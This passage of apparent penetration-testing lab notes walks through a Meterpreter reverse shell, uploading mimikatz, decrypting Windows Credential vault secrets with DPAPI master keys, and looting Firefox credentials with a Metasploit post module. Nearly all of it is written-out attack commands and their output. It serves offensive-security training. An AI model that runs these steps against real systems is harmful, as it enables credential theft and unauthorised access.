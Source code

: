 ```bash
			- `set payload windows/x64/meterpreter/reverse_tcp`
			- `set lhost eth0`
			- `set lport 443`
			- `exploit`
- On Windows Host execute the relevant shell created in `Downloads`
```
- In `meterpreter`
	- `upload /opt/Tools/mimikatz_trunk/x64/mimikatz.exe C:\\Users\\Public\\mimikatz.exe`
	- `shell`
	- `cd C:\Users\Public`
		- Verify *mimikatz.exe* was uploaded 
			- `dir`
		- `C:\Users\s.chisholm.mayorsec\appdata\local\microsoft\credentials`
			- Take the *hash* with the **smaller** file size
![image](https://0xc0rvu5.github.io/docs/assets/images/20221126130955.png)
- Enter *mimikatz.exe*
	- `mimikatz.exe`
- Verify there are credentials in the **Windows Credentials** vault
	- `vault::cred`
- `dpapi::cred /in:C:\Users\s.chisholm.mayorsec\appdata\local\microsoft\credentials\9FD43B9DAC2EECAA50270662B8E497D5`
	- Note the `guidMasterKey` in the output
- `exit`
- Find the *SID* value
	- `dir /a C:\Users\s.chisholm.mayorsec\appdata\roaming\microsoft\protect`
- 1: `dir /a C:\Users\s.chisholm.mayorsec\appdata\roaming\microsoft\protect\S-1-5-21-3457093242-545618575-2805282300-1113`
	- Output:
		- 2: `7658586d-083f-49f4-ab5b-8f3575b6cbf8`
![image](https://0xc0rvu5.github.io/docs/assets/images/20221126131836.png)
- Command: `dpapi::masterkey /in:`**1** **2** `/rpc`
- `dpapi::masterkey /in:C:\Users\s.chisholm.mayorsec\appdata\roaming\microsoft\protect\S-1-5-21-3457093242-545618575-2805282300-1113\7658586d-083f-49f4-ab5b-8f3575b6cbf8 /rpc`
![image](https://0xc0rvu5.github.io/docs/assets/images/20221126132049.png)
- In the output save the `key` **value**
	- 2: `cf717c7c2b29a1bc88a6c62bc18d1b2b618d286cccdfb51a7990d82804dac0dbbca0e72af611b39f36cbc754f4318078be76b7a512d9114317d0ed1f81bb49e3`
- Refer back to `dpapi::cred` command
	- 1: `dpapi::cred /in:C:\Users\s.chisholm.mayorsec\appdata\local\microsoft\credentials\9FD43B9DAC2EECAA50270662B8E497D5`
-  Syntax goes "**1** `/masterkey:`**2**"
- `dpapi::cred /in:C:\Users\s.chisholm.mayorsec\appdata\local\microsoft\credentials\9FD43B9DAC2EECAA50270662B8E497D5 /masterkey cf717c7c2b29a1bc88a6c62bc18d1b2b618d286cccdfb51a7990d82804dac0dbbca0e72af611b39f36cbc754f4318078be76b7a512d9114317d0ed1f81bb49e3`
![image](https://0xc0rvu5.github.io/docs/assets/images/20221126132558.png)

### Dumping Firefox Credentials with Metasploit
- Open `Metasploit`
- `search firefox`
- `use 55` or `use post/multi/gather/firefox_creds`
	- `set sessions ID`
- Change:
	- `mv /root/.msf4/loot/20221126133813_default_192.168.3.4_ff.zyke1oji.cert_342194.bin /root/.msf4/loot/cert9.db`
	- `mv .root/.msf4/loot/20221126133814_default_192.168.3.4_ff.zyke1oji.key4_198713.bin /root/.msf4/loot/key4.db`
	- `mv .root/.msf4/loot/20221126133814_default_192.168.3.4_ff.zyke1oji.logi_991515.bin /root/.msf4/loot/logins.json`
	- `mv .root/.msf4/loot/20221126133813_default_192.168.3.4_ff.zyke1oji.cook_004714.bin /root/.msf4/loot/cookies.sqlite`